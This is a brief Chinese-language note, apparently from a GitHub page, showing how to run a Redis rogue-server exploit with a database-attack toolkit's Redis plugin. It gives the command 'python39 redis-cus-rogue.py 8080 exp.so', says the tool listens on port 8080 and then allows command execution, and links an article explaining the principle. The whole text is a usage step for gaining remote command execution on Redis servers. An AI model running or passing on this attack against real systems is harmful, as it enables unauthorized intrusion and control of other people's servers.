

使用工具Multiple.Database.Utilization.Tools-2.1.1\Plugins\Redis>

`python39 redis-cus-rogue.py 8080 exp.so`

在8080端口监听，

即可执行命令  
原理相关文章[https://www.cnblogs.com/xiaozi/p/13089906.html](https://www.cnblogs.com/xiaozi/p/13089906.html)

